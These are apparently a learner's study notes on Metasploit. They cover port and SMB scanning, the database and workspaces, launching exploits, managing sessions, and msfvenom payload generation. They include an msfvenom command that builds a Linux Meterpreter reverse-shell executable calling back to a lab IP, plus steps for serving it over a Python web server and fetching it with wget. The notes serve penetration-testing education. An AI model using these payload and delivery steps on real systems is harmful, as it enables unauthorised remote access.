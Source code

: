 ```yaml
---
id: 0kj8xnsfecw7wnis65jbzok
title: Exploitation
desc: ''
updated: 1654809781117
created: 1654385678517
---
```


# Tasks

- [ ] How to scan target systems using Metasploit.
- [ ] How to use the Metasploit database feature.
- [ ] How to use Metasploit to conduct a vulnerability scan.
- [ ] How to use Metasploit exploit vulnerable services on target systems.
- [ ] How `msfvenom` can be used to create payloads and obtain a Meterpreter session on the target system.

## Scanning

### Port Scanning

Metasploit has many modules to scan open ports on the target system and network.

- List potential port scanning modules available using `search portscan` command.

Options:

- **CONCURRENCY**
: Number of targets to be scanned simultaneously.

- **PORTS**
: Port range to be scanned. Nmap will scan the 1000 most used ports, while Metasploit will scan port numbers from 1 to 10000.

- **RHOSTS**
: Target or target network to be scanned.

- **THREADS**
: Number of threads that will be used simultaneously. More threads = faster scans.

#### UDP Service Identification

`scanner/discovery/udp_sweep` module will allow to quickly identify services running over the UDP (User Data Protocol).

#### SMB Scans

On a corporate network, `smb_enumshares` and `smb_version` to identify specific services on system.

Metasploit has many modules that can help you have a better understanding of the target system and possibly help you find vulnerabilities. It is always worth performing a quick search to see if there are any modules that could be helpful based on your target system. 

[+] 10.10.192.91:         - 10.10.192.91:22 - TCP OPEN
[+] 10.10.192.91:         - 10.10.192.91:21 - TCP OPEN
[+] 10.10.192.91:         - 10.10.192.91:139 - TCP OPEN
[+] 10.10.192.91:         - 10.10.192.91:445 - TCP OPEN
[+] 10.10.192.91:         - 10.10.192.91:8000 - TCP OPEN
[*] 10.10.192.91:         - Scanned 1 of 1 hosts (100% complete)

## The Metasploit Database

Metasploit has a database function to simplify project management and avoid possible confusion when setting up parameter values.

### Starting Postgresql and `msfconsole` Database

You will first need to start the PostgreSQL database, which Metasploit will use with the following command: 

`systemctl start postgresql`

Then initialize Metasploit Database using the `msfdb init` command and `db_status` to check the status after launching msfconsole.

### Listing Workspaces

The database feature allows to create workspaces to isolate different projects. List available workspaces using the `workspace` command.

- Can add a workspace using the `-a` parameter or delete a workspace with `-d` parameter.

### Changing Workspaces

- Switch between workspaces by typing `workspace` followed by the desired workspace name.

#### Workspace Help

- Use `workspace -h` command to list available options for the `workspace` command.

#### Database Backend Commands

- Once Metasploit is launched with a database, the `help` command will show the Database Backends Commands menu.

#### db_nmap Command

- Running Nmap scan with `db_nmap` will save the results to the database.

#### Hosts and Services

- Can reach information relevant to hosts and services running on target systems with the `hosts` and `services` commands.

Once the host information is stored in the database, you can use the `hosts -R` command to add this value to the RHOSTS parameter.

### Vulnerability Scanning

Metasploit allows to quickly identify some critical vulnerabilities that could be considered as "low hanging fruit". Usually refers to easily identifiable and exploitable vulnerabilities that could potentially allow access.

`info` command for any module to have a better understanding of its use and purpose.

### Exploitation

Metasploit is an exploitation framework and exploits are the most populated module category.

- Search for exploits using the `search` command.
- Obtain more information about the exploit using the `info` command.
- Launch the exploit using `exploit`.

The process seems simple but a successful outcome depends on a thorough understanding of services running on a target system.

#### Available Payloads

Most of the exploits have a preset default payload.

- Can always use the `show payloads` command to list other commands for that specific exploit.
- Use `set payload` command to select payload of choice.

#### Background

Once a session is opened, `CTRL+Z` to background or abort it using `CTRL+C`.

#### Working with Sessions

The `sessions` command will list all active sessions.

- Interact with any existing session using the `sessions -i` command followed by the session ID.

## Msfvenom

Replaces Msfpayload and Msfencode to generate payloads.

- Msfvenom will allow to access all payloads in the Metasploit framework.
- Msfvenom allows to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).

### Output Formats

- Can generate stand-alone payloads or get a usable raw format with `msfvenom --list formats`.

### Encoders

Encoders do not aim to bypass antivirus installed on the target system. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shell code is better solution to the problem.

- Usage of encoding with `-e` parameter.

### Handlers

Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload.

- The term commonly used to receive a connection from a target is "catching a shell". Reverse shells or Meterpreter callbacks generated in the MSFvenom payload can be easily caught using a handler.
- Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells.
- Multi Handler to receive the incoming connections with `use exploit/multi/handler` command.

#### Other Payloads

Linux Executable and Linkable Format (elf)
`msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.13.40.171 LPORT=4444 -f elf > rev_shell.elf`

Transfer to the target machine by starting a Python web serer on attacking machine with `python3 -m http.server 9000` command. Then use wget to download it to the target machine (Linux)

## Summary

- Database feature can help with penetration testing with multiple targets.
- Creation of stand-alone Meterpreter payloads.
  - Helpful in situations where we can upload a file to the target system or have the ability to download files to the target system.
- Meterpreter is a powerful tool that offers a lot of features during the post-exploitation phase.